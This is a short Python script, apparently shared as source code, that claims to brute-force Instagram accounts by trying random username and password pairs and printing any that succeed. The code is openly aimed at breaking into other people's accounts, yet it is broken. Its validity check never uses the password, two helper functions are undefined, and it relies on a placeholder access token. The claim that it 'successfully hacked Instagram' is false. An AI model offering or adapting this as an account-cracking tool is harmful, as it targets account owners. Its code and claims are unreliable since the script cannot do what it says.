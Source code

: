import requests
import time
# Define the username and password you want to try
username = "username"
password = "password"
# Define the base URL for the Instagram API
base_url = "https://api.instagram.com/v1/"
# Define the headers for the API requests
headers = {
    "Authorization": "Bearer YOUR_ACCESS_TOKEN",
    "Content-Type": "application/json",
}
# Define the function to make a request to the API
def make_request(url, method, data=None):
    response = requests.request(method, url, headers=headers, data=data)
    response.raise_for_status()
    return response.json()
# Define the function to check if a username and password are valid
def is_valid(username, password):
    # Make a request to the API to get the user's profile
    url = base_url + "users/" + username + "/info"
    data = {
        "access_token": YOUR_ACCESS_TOKEN,
    }
    response = make_request(url, "GET", data)
    # If the response is successful, the username and password are valid
    if response["status"] == "ok":
        return True
    # Otherwise, the username and password are not valid
    return False
# Start a loop to try all possible combinations of usernames and passwords
while True:
    # Generate a random username and password
    username = random_username()
    password = random_password()
    # Check if the username and password are valid
    if is_valid(username, password):
        # The username and password are valid, so we have successfully hacked Instagram
        print("Username:", username)
        print("Password:", password)
        break
    # The username and password are not valid, so try again
    time.sleep(1)
